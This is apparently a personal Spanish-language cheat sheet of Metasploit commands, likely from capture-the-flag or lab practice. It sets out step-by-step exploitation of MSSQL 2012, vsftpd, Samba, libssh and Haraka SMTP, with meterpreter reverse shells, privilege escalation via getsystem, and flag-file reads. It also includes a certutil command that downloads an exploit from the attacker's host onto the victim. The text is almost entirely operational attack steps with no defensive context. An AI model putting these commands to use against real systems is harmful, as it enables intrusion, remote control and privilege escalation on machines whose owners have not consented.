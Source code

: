 Traer archivos desde mi host hasta la victima
certutil .urlcache -f http://IP/ruta/exploit.exe exploit.exe

________
search Microsoft SQL Server 2012
use 0
set payload windows/x64/meterpreter/reverse_tcp
shell
 cd \
 dir
 type flag.txt

cd C:\Windows\System32\config -Error
exit
getprivs
getsystem -Obtener privilegios tipo SUID
shell
cd config; type flag2.txt
dir C:\Windows\System32\*.txt /s /b
___________


Servidor FTP (VSFTPD)
search vsftpd
exploit
search shell_to_metterpreter
	set LHOST
	run
session 2 -Obtener una sesion con meterpreter de la primera sesion

Samba
search samba/is_know_pipename
check -Mirar si es vulnerable
run
cntrl z
use shell_to_meterpreter
set LHOST eht1 -Detecta la IP automaticamente
set SESSION 1
run
sessions 2

SSH SERVER 
search libssh_auth_bypass
set SPAWN_PTY true
run
sessions 1
cat /etc/*release
uname -r
cntrl z
shell_to_meterpreter

SMTP Server
search smtp/haraka
set SRVPORT
set email_to yonatan@gmail.com
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
run
sysinfo
getuid
